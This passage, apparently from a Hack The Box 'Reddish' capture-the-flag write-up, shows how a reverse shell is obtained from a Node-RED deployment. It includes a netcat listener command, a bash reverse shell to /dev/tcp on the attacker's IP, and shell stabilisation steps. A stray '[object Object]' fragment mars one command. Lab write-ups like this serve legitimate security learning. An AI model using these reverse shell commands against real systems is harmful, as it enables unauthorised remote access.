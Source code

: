 Click on the node that shows the IP and Port.

![ipport node](/img/htb/reddish/ipport_node.png)

Start a listener on the attacker machine using the chosen port.

```bash
nc -lnvp 9001
```

Go to the node-red site and click on Deploy.

![deploy](/img/htb/reddish/deploy_shell.png)

A reverse shell is received.

![hostname container 1](/img/htb/reddish/hostname_container_1.png)

## Access to nodered container


To get a more stable tty another shell is sent from the one obtained on port 9001 to another one on port 443.

```bash
[object Object]bash -c "bash -i > /dev/tcp/10.10.14.26/443 0>&1" &
```


Once the new shell is received proceed to stabilize the shell:

- script /dev/null -c bash
- (ctrl+z)
- stty raw -echo; fg
- reset xterm (press Enter)
- stty rows 39 columns 155 (adapt this to your stty size)
- export TERM=xterm
- export SHELL=bash

![shell container 1](/img/htb/reddish/shell_container_1.png)
